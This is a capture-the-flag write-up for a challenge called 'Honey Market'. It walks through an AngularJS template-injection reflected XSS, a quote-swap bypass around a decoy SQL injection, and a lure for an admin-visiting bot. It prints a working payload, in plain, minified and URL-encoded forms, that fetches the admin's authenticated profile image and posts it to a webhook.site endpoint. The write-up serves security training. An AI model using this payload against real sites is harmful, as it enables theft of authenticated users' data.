

# Honey Market

## Overview

Core concepts of this challenge:

1. Reflected XSS through common flaws in AngularJS
2. How to build flexible XSS payload ( doesn't always have to grab the cookie )
3. Bypass one vulnerability to execute another through the existing database honeypot.
4. Think outside of the box.

## Hints

1. Sometimes badass bugs like RCE or SQLI aren't always to way to take down a bad guy, sometimes a selfie is enough.
2. Metadata can sometimes contain juicy information, in cases where the threat actor only shows their back or is wearing a mask in their profile picture.
3. AngularJS if used incorrectly can be surprisingly vulnerable to XSS.
4. For testing SSRF, blind RCE, blind SQLi, or anything that requires sending a DNS or HTTP request, you can either build your server or use existing free options such as [Interatsh](https://app.interactsh.com/#/), [Requestbin](https://pipedream.com/requestbin), [Self-host ngrok](https://github.com/inconshreveable/ngrok) or of courses, [Webhook](https://webhook.site).

## Writeup

### Step 1: Enumeration, code review and trap ?

As always, visit the website first then play around with it. And since the source code is granted, understanding the website will be easier.


After understanding it and its source code, a lot of folks may or may not be caught up in the cool SQLi bug that I intentionally put there as a honeypot >:D


But if you are sharp enough, you will notice weird things such as the nasty comment and why is there a function called `black_list_later` there. I bet some people will immediately recognize that this is a troll or a honeypot and then try to figure another way out.


Yet if you insisted on trying out the SQLi or it caught your attention too much to ignore, you may try but it might take awhile due to SQLite and the information will just be

- flag: `not_pecan{http://y2u.be/dQw4w9WgXcQ}` ( I am so sorry, lol, my intrusive thoughts won that night )
- message_of_the_day: `Whoops, sorry, no REAL flags here. But check this cool piece of knowledge out -> https://www.fortinet.com/resources/cyberglossary/what-is-honeypot`


Which is just a trap. Now you may think of updating the password of the administrator, but since this is SQLite, that's nearly impossible.


### Step 2: Code review, again!

Some good rules of thumb whenever you are pentesting are:

1. Find as many bugs as possible, until nothing is left to be found
2. **_BE PERSISTENT_**

The reasons are simple:

1. You may miss some cool bugs if you just stop and this makes the system vulnerable still.
2. false positives happen all the time for pentesters so don't be discouraged. If you give up now, you may miss a dangerous vuln lying around when in fact, you are so close. Just like in this challenge.

Now even though the previous SQLi seems juicy it is pretty useless in this case. But hey! SQLi is not the only way to exploit something, there are many other ways. Anyway, if you try to review the source code closely enough ( again ), these lines of code seem interesting.


WWhy are these interesting? Because AngularJS if used incorrectly can be surprisingly vulnerable to XSS. And if you are an Angular enthusiast or security researcher with enough experience, you will know that curly braces `{{}}` being returned from the server side and being put inside any HTML element with the `ng-app` directive can lead to sandbox bypass ( which means XSS attack ). I will put some references about this at the end of this file if this is a new concept to anyone.

If you don't believe me, try to enter the search string `{{2+2}}` into the search bar and it will render `4`.


Now if you enter a payload such as

```js
{{constructor.constructor('alert(1)')()}}
```

It should alert `1`.


Oops, forgot that the SQLi still exists and it will throw the error if we submit any malfunction payload with the character `'` in it. To overcome this, it's easy, just switch to `"` as a bypass.

```js
{{constructor.constructor("alert(1)")()}}
```


Now we know that this application is vulnerable to Reflected XSS. But this is only dangerous if we somehow manage to send it to the administrators and trick them into clicking it. But wait, inspect the source code again and we will see a bot that will automatically do this as the administrator.


And this bot will click whatever link we provide to it through the `CONTACT NOW` form on any product page.


So it will be a jackpot to craft a malicious URL and then pass it to the bot, when it visits the link, it will execute our malicious payload as the administrator.

> I tried to simulate a real-life scenario through the bot, even though real-life darknet markets do sometimes have forms for clients to contact them, but no bot will click it behind the scenes, it's usually the administrators themselves. Yet, they will click it either way if the domain is not suspicious and it belongs to them ;)

### Step 3: Exploitation

Great so now we are pretty clear with our attack vector, the thing left is to craft the malicious URL based on the Reflected XSS that we have. But hold on, if you are familiar with Flask, you will know that the default cookie in correspondence with the `session` objects will have `HttpOnly=True` by default. This means that it's impossible to craft an XSS payload to grab the juicy cookie through `document.cookie`.

This leaves us with some other choices:

1. Use Reflected XSS to do Clickjacking or build a Phishing form
2. Since `Samesite` is None, maybe figure out a way to manipulate CSRF through this.
3. Or...

Remember the main purpose of this operation, it's not to take the entire site down or breach the database but to know who is behind it. And for that, things like usernames, house addresses, or simply a selfie of the administrators can also be enough. It's not strictly grabbing the cookie or RCE into the system ( even tho that would be cooler ).

Now based on the source code, it seems like there is a private URL for the administrators at `/admin/profile`.


Inside the Jinja template, there will be a line that extracts the profile image of the administrators.



Yet the route to the profile image `/v1/API/profile/get` is only accessible through an authorized connection with a cookie.

But the good news is, that any local HTTP requests from the domain itself will include the cookie inside of it if it's sent to the same domain. So we can totally use functions like `fetch` to grab the profile image and then send that image back to our server. And since I am too broke to host my own globally accessible servers, I will just use the free options such as [Webhook](https://webhook.site/) instead.

Now finally, if you spend time playing around with the source code a bit, you can craft your own PoC code for the malicious payload, similar to my solution below.

```js
// Reflected XSS PoC
let webhook = `YOUR_WEBHOOK_URL`; // Replace this

fetch(`http://127.0.0.1:5000/v1/api/profile/get`)
  .then((e) => e.blob())
  .then((e) => {
    let t = new File([e], `image.jpg`, {
        type: e.type,
      }),
      p = new FormData();
    p.append(`file`, t),
      fetch(webhook, {
        method: `POST`,
        body: p,
      });
  })
  .catch(console.error);
```

> Another way is to base64 your entire PoC code then put it inside `eval(atob(PAYLOAD)))` but that will take more time.

After this...

1. Minify this code
2. Put it inside the constructor payload from the previous step.

```js
{{constructor.constructor("let webhook=`YOUR_WEBHOOK_URL`;fetch(`http://127.0.0.1:5000/v1/api/profile/get`).then((e=>e.blob())).then((e=>{let t=new File([e],`image.jpg`,{type:e.type}),o=new FormData;o.append(`file`,t),fetch(webhook,{method:`POST`,body:o})})).catch(console.error);")()}}
```

> Notice that I use the ` character to close up strings instead of " or ' to either avoid SQL Injection or syntax errors

Visit Webhook and replace your unique URL with the `YOUR_WEBHOOK_URL` string.


After replacing it, remember to URL-encode it.

```js
// Before URL-encoding
{{constructor.constructor("let webhook=`https://webhook.site/4625d87d-847d-4d68-870d-33c822601651`;fetch(`http://127.0.0.1:5000/v1/api/profile/get`).then((e=>e.blob())).then((e=>{let t=new File([e],`image.jpg`,{type:e.type}),o=new FormData;o.append(`file`,t),fetch(webhook,{method:`POST`,body:o})})).catch(console.error);")()}}

// After URL-encoding
%7B%7Bconstructor.constructor%28%22let%20webhook%3D%60https%3A%2F%2Fwebhook.site%2F4625d87d-847d-4d68-870d-33c822601651%60%3Bfetch%28%60http%3A%2F%2F127.0.0.1%3A5000%2Fv1%2Fapi%2Fprofile%2Fget%60%29.then%28%28e%3D%3Ee.blob%28%29%29%29.then%28%28e%3D%3E%7Blet%20t%3Dnew%20File%28%5Be%5D%2C%60image.jpg%60%2C%7Btype%3Ae.type%7D%29%2Co%3Dnew%20FormData%3Bo.append%28%60file%60%2Ct%29%2Cfetch%28webhook%2C%7Bmethod%3A%60POST%60%2Cbody%3Ao%7D%29%7D%29%29.catch%28console.error%29%3B%22%29%28%29%7D%7D
```

And the final malicious URL will be something like this : `http://127.0.0.1:5000/products?search=%7B%7Bconstructor.constructor%28%22let%20webhook%3D%60https%3A%2F%2Fwebhook.site%2F4625d87d-847d-4d68-870d-33c822601651%60%3Bfetch%28%60http%3A%2F%2F127.0.0.1%3A5000%2Fv1%2Fapi%2Fprofile%2Fget%60%29.then%28%28e%3D%3Ee.blob%28%29%29%29.then%28%28e%3D%3E%7Blet%20t%3Dnew%20File%28%5Be%5D%2C%60image.jpg%60%2C%7Btype%3Ae.type%7D%29%2Co%3Dnew%20FormData%3Bo.append%28%60file%60%2Ct%29%2Cfetch%28webhook%2C%7Bmethod%3A%60POST%60%2Cbody%3Ao%7D%29%7D%29%29.catch%28console.error%29%3B%22%29%28%29%7D%7D`


Then wait for a few seconds and BOOM!


The profile image was sent.

### Step 4: Capture The Flag

Wait, where is my flag?

Calm down, the image itself does explain it... The threat actor is wearing a mask, so it's hard to know who they are. But sometimes, devices like iPhones do capture images and forget to strip juicy metadata about its images such as `Owner name`, or the location of where that image was captured.

> I even put some hints at the bottom of this image XD

That means you can use tools like `exiftool` to extract all of the crazy metadata about this image as follows.


And congratulation! the flag is `pecan{h@ck3d_th3_h@ck3r$_!!!}`

## Extra facts

1. Cool bugs like `SQLi` even though seem like a jackpot, aren't always the ticket to solve the problem.
2. One vulnerability can be unintentionally defeated by another.
3. Most people usually copy payload from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) and then call it a day, well most of those usually use the `'` character, and due to the SQLi honeypot, so the players will need to think outside of the box a little bit to craft a functional payload 😉
4. This also happened in one of my real pentests, where an XSS was defeated by an existing SQLi (which can be easily bypassed btw), only that the site I tested was not a criminal site but a valid one.

## References:

1. PayloadsAllTheThings : https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/5%20-%20XSS%20in%20Angular.md
2. LiveOverflow : https://www.youtube.com/watch?v=67Yc8_Bszlk&list=PLhixgUqwRTjwJTIkNopKuGLk3Pm9Ri1sF
3. Portswigger: https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-angularjs-expression
